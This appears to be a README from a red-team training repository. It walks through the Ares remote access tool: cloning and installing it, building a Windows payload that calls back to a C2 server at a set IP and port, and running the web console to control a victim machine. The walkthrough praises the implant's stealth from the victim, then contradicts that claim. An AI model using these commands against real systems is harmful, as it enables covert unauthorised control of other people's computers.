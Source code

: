 # Red Teaming Squad : Command & Control

Command and control (C2) systems are used to manage remote sessions from compromised hosts. From a command and control program interface, a security tester or attacker can send commands directly from the program or access a remote shell. During a penetration test, a security tester can deploy a remote access terminal (RAT) on a compromised host that dials back to a command and control server.


## C2 with Web Interface : Ares

Ares is a Python Remote Access Tool and is made of two main programs:
1. A command and control server, which is a Web interface to administer the agents
2. An agent program, which is run on the compromised host, and ensures communication with the CNC


### Installation

You can install "Ares" using following command:

```
git clone https://github.com/sweetsoftware/Ares
cd Ares
pip install -r requirements.txt
./wine_setup.sh
```

### Usage

First of all you have to change the server address to attacker's IP address.

<kbd>![](Command_&_Control/1.png)</kbd>

Now create payload(exe file because target system is windows) using ```./builder.py -p Windows --server http://192.168.43.250:8080 -o temp.exe``` command and transfer the payload to victim's machine.

<kbd>![](Command_&_Control/2.png)</kbd>

Now initiate the server database using ```./ares.py initdb``` and then start the server using ```./ares.py runserver -h 192.168.43.250 -p 8080 --threaded``` command.

<kbd>![](Command_&_Control/3.png)</kbd>

Access the web server through browser.

<kbd>![](Command_&_Control/4.png)</kbd>

Run the payload.

<kbd>![](Command_&_Control/5.png)</kbd>

Observe the session on server.

<kbd>![](Command_&_Control/6.png)</kbd>

Now attacker can interact with target machine through the web interface.

<kbd>![](Command_&_Control/7.png)</kbd>

One of the benefit of ares tool is that victim won't notice that any unwanted application is running on his/her machine. If victim checks the running processes then he/she will find the exe file running on the machine. 

<kbd>![](Command_&_Control/8.png)</kbd>

For more use cases, you can use ```./builder.py --help``` command or you can visit this [URL](https://github.com/sweetsoftware/Ares).
